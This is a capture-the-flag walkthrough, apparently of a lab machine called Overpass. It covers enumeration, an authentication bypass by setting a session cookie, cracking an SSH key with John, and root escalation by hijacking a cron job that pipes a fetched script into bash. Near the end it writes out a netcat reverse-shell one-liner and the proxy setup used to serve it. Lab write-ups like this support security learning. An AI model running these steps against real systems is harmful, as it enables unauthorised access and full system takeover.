 Start off with an nmap scan.

`nmap -sC -sV -O 10.10.151.177`

Port 22 and 80 are open running SSH and HTTP services respectively.

Let's check the website out first. There's some links we can click on but let's also enumerate using dirb just for completeness sake.

`dirb http://10.10.151.177 /usr/share/wordlists/dirb/big.txt` and ``dirb http://10.10.151.177 /usr/share/wordlists/dirb/big.txt` -X .php`

Looks like there's nothing hidden. Let's head into the downloads directory and see what we can find.

I'll download the source code and build script, maybe there's some hard-coded credentials inside.

Nothing really stands out to me so far, and the hint says that we're specifically looking for an OWASP top 10 vulnerability to gain an initial foothold.

The service versions don't appear to be exploitable by a relevant vulnerability either.

Kind of stumped here so let's retrace our steps and see if we missed anything. The other two directories were /css and /img, the /css directory contains an interesting file called "login.css"

If we open "login.css" it just looks like it loads a simple table, but there's an element that says:

> #loginStatus {
>    color: red;

The css isn't loaded by the page, we can verify this using the dev tools and checking the network tab. I tried to edit the html to load "login.css" instead of "main.css" but that doesn't seem to get us anywhere.

Let's run our dirb scan again, this time checking for html pages...

We found an admin panel at http://10.10.151.177/admin.html

Progress!

Again, we're not supposed to brute-force. So let's see if it's vulnerable to any SQL injection. We'll use Burp to help us out.

We tested various methods to try and prove that it's vulnerable to SQLi, but no dice.

We notice from the page source that there is now a "login.js" script being loaded. Let's check its contents for any clues.

This looks interesting:

```  if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"```

This code checks a value stored in "loginStatus" for the text "Incorrect Credentials". If it matches that value, then it denies us entry. We need to modify the value of "statusOrCookie" so we can trigger the else condition of this function. (At least this is what I gathered from the snippet, I have the coding skills of a hamster)

The cookies name is "SessionToken". Let's input `Cookies.set("SessionToken", "test")` in the dev tools>storage>cookies section of firefox and then refresh the page.

**NOTE: I couldn't get this to work without changing the URL from /admin.html to /admin ... I don't know why but it was pretty frustrating.**

Refreshing the page shows us an RSA key for "James". We can steal it, crack it with John, and then use those creds to log in to the users session.

`/opt/john/ssh2john.py ssh.txt > ssh.hash`

`john ssh.hash`

Now let's login

`ssh -i ssh.txt james@10.10.198.26`

Enter the passphrase that john cracked.

Grab the user flag, and check out the other file on the desktop "todo.txt"

A quick `sudo -l` tells us we need a sudo password if we want to escalate our privileges via a LOLBIN. 

Checking the contents of /etc/shadow tells us we don't have permission to see it.

We can however see /etc/passwd and checking the crontan also yields some interesting information.

> * * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash

Looks like we have a bash script that's running as root.

The script downloads "buildscript.sh" from the website. Unfortunately we don't have write permissions to crontab, but notice how it's using "overpass.thm" instead of the machine IP. This means that there's an entry in the hosts file that makes this possible. Let's edit the hosts file and redirect the request to our machine.


We'll need to setup a python webserver on our attackbox for this and setup a directory structure on our machine that's identical to the cronjob.

Unfortunately, port 80 is already in use on the attackbox (since we're using the browser) and we can't change the port in the hosts file. We'll need to set up a reverse proxy. After some googling, I found that `nginx` can help us out with this. Let's install it and then create a file called "overpass.thm" at `/etc/nginx/conf.d`

The file will contain:

```server {

    listen 80;
    server_name overpass.thm;
    location / {
        proxy_pass http://127.0.0.1:8081/;
    }
}
```

Now, when the target sends a request to our machine on port 80, it'll be forwarded to port 8080 which is where we will set up the python webserver. Don't forget to create a "buildscript.sh" inside /downloads/src which is where we will put our netcat shell spawning script.

`rm -f /tmp/a; mkfifo /tmp/a; nc <Attackbox IP> 4444 0</tmp/a | /bin/sh >/tmp/a 2>&1; rm /tmp/a `

setup our python3 webserver...

`python3 -m http.server 8081`

and finally...set up our netcat listener to catch she shell.

`nc -lvnp 4444`








